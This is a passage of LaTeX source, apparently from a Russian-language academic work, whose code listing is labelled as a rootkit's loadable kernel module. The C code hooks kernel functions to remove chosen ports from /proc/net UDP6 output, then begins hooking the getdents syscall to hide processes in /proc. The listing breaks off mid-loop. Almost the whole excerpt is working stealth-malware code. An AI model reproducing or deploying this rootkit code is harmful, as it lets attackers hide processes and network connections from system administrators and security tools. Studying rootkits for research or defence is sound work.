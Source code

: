 \begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, файл реализации},label=lst:rootkit_c]
    list_for_each_entry (hp, &hidden_port_list, list) {
        sprintf(port, ":%04X", hp->port);

        if (strnstr(
                    seq->buf + seq->count - PROC_NET6_ROW_LEN,
                    port,
                    PROC_NET6_ROW_LEN
                )) {
            seq->count -= PROC_NET6_ROW_LEN;
            break;
        }
    }

    return ret;
}

KHOOK_EXT(int, udp6_seq_show, struct seq_file *, void *);
static int khook_udp6_seq_show(struct seq_file *seq, void *v) {
    int ret;
    char port[12];
    struct hidden_port *hp;

    ret = KHOOK_ORIGIN(udp6_seq_show, seq, v);

    list_for_each_entry (hp, &hidden_port_list, list) {
        sprintf(port, ":%04X", hp->port);

        if (strnstr(
                    seq->buf + seq->count - PROC_NET6_ROW_LEN,
                    port,
                    PROC_NET6_ROW_LEN
                )) {
            seq->count -= PROC_NET6_ROW_LEN;
            break;
        }
    }

    return ret;
}

/**************************HIDE PROCESSES********************************/
#include "../inc/proc.h"

#include <linux/fs.h>
#include <linux/dirent.h>
#include <linux/fdtable.h>

KHOOK_EXT(long, __x64_sys_getdents, const struct pt_regs *);
static long khook___x64_sys_getdents(const struct pt_regs *pt_regs) {
    int fd; 
    long ret;
    long off = 0;

    struct inode *d_inode;
    struct linux_dirent *dirent, *kdirent, *dirent_var, *dirent_prev;

    fd = (int)pt_regs->di;
    dirent = (struct linux_dirent *)pt_regs->si;

    ret = KHOOK_ORIGIN(__x64_sys_getdents, pt_regs);
    if (ret <= 0)
        return ret;

    d_inode =
        current->files->fdt->fd[fd]->f_path.dentry->d_inode;
    if (d_inode->i_ino != PROC_ROOT_INO)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (!kdirent)
        return ret;

    if (copy_from_user(kdirent, dirent, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (off < ret) {
        dirent_var = (void *)kdirent + off;


\end{lstlisting}
